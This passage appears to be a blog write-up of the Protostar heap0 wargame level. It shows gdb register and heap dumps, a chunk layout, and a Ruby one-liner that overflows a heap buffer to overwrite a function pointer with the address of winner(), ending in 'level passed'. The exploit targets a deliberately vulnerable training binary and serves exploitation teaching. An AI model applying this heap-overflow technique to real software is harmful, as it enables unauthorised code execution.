 gdb> r $(ruby -e 'print "X" * 64')
data is at 0x804a008, fp is at 0x804a050
level has not been passed
_______________________________________________________________________________
     eax:0000001A ebx:B7FD7FF4  ecx:B7FD84C0  edx:B7FD9340     eflags:00200246
     esi:00000000 edi:00000000  esp:BFFFF730  ebp:BFFFF758     eip:080484FF
     cs:0073  ds:007B  es:007B  fs:0000  gs:0033  ss:007B    o d I t s Z a P c 
[007B:BFFFF730]---------------------------------------------------------[stack]
BFFFF760 : 02 00 00 00  04 F8 FF BF - 10 F8 FF BF  48 18 FE B7 ............H...
BFFFF750 : 20 85 04 08  00 00 00 00 - D8 F7 FF BF  76 DC EA B7  ...........v...
BFFFF740 : 65 63 EC B7  40 10 FF B7 - 08 A0 04 08  50 A0 04 08 ec..@.......P...
BFFFF730 : 08 A0 04 08  41 F9 FF BF - 50 A0 04 08  58 F7 FF BF ....A...P...X...
[007B:BFFFF730]---------------------------------------------------------[ data]
BFFFF730 : 08 A0 04 08  41 F9 FF BF - 50 A0 04 08  58 F7 FF BF ....A...P...X...
BFFFF740 : 65 63 EC B7  40 10 FF B7 - 08 A0 04 08  50 A0 04 08 ec..@.......P...
[0073:080484FF]---------------------------------------------------------[ code]
0x80484ff <main+115>:	leave  
0x8048500 <main+116>:	ret    
0x8048501:	nop
0x8048502:	nop
0x8048503:	nop
0x8048504:	nop
------------------------------------------------------------------------------

Breakpoint 1, main (argc=0x2, argv=0xbffff804) at heap0/heap0.c:40
40	heap0/heap0.c: No such file or directory.
	in heap0/heap0.c

gdb> x /25x 0x0804a000
0x804a000:	0x00000000	0x00000049	0x58585858	0x58585858
0x804a010:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a020:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a030:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a040:	0x58585858	0x58585858	0x00000000	0x00000011
0x804a050:	0x08048478	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000
{% endcodeblock %}

{% codeblock %}
(08) 0x0804a000: d-control
(64) 0x0804a008: d-name

(08) 0x0804a048: f-control
(04) 0x0804a050: f-fp
{% endcodeblock %}

We set `fp` to `winner()` symbol:

{% codeblock %}
user@protostar:~$ nm /opt/protostar/bin/heap0 | grep winner
08048478 T nowinner
08048464 T winner

user@protostar:~$ /opt/protostar/bin/heap0 $(ruby -e 'print "X"*72 + [0x08048464].pack("V")')
data is at 0x804a008, fp is at 0x804a050
level passed
{% endcodeblock %}

